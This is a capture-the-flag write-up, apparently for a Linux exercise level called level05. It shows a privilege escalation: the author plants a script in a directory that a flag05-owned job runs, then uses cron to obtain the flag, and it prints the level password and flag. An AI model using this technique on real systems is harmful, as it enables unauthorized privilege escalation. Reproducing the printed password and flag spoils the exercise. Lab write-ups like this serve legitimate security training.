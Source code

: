 # level05

## Vulnerability: Wildcard trickery

level05's password: `ne2searoevaevoem4ov4ar8ap`

we got some intel from level00:

```bash
-rwxr-x---+ 1 flag05  flag05      94 Mar  5  2016 openarenaserver
/opt/openarenaserver
/usr/sbin/openarenaserver
/rofs/opt/openarenaserver
/rofs/usr/sbin/openarenaserver
```

1. examinate existing files and permissions

```bash
ls -la
ls -la /usr/sbin/openarenaserver
cat /usr/sbin/openarenaserver
```

shows a shell script that runs all scripts in `/opt/openarenaserver`, and that the process is running as flag05

2. create an exploit script

```bash
echo -e "getflag > /opt/openarenaserver/flag" > /opt/openarenaserver/exploit.sh
```

3. make it run as flag05 with flag05 script and crontab

```bash
crontab -e
* * * * * /opt/openarenaserver/exploit.sh
```

to execute exploit every minute

4. wait crontab's execution (next minute second 0) then pwn the flag

```bash
uptime
cat /opt/openarenaserver/flag
```

gives flag: `viuaaale9huek52boumoomioc`
